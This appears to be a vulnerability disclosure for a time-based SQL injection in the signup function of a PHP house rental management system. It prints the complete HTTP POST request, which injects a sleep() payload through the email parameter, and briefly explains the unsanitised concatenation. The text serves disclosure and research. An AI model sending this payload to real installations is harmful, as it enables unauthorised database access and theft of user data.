


# Best house rental management system signup time-based SQL Injection Vulnerability

* **Exploit Title**: Best house rental management system project in php signup time-based SQL Injection Vulnerability
* **Exploit Author**: webraybtl@webray.com.cn inc
* **Vendor Homepage**: https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html
* **Software Link**: https://www.sourcecodester.com/download-code?nid=17375&title=Best+house+rental+management+system+project+in+php+
* **Version**: Best house rental management system project in php v1.0
* **Tested on:**  PHP 7.4.33, OpenResty1.21.4.3-3-3-focal
* **CVE:**  Reported, waiting for CVE number.

## Description

Best house rental management system project in php admin_class.php `signup`​function has a time-based SQL injection Vulnerability.

#### Payload used:

```plaintext
POST /ajax.php?action=signup HTTP/1.1
Host: 192.168.56.128:8080
Priority: u=0
X-Requested-With: XMLHttpRequest
Origin: http://192.168.56.128:8080
Cookie: PHPSESSID=l9bepm47dqojg3l0o826l4kcd0
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://192.168.56.128:8080/login.php
Content-Length: 66

firstname=mayuri.infospace%40gmail.com&lastname=lastname&email=123' and sleep(6) and 2='&password=admin
```

## Proof of Concept

* Construct the post request package and send it to the signup function. Successfully saw that the response time was delayed by the specified number of seconds.

​​

* Upon reviewing the source code, it was discovered that the `email`​ parameter was directly concatenated into the SQL statement.

​​
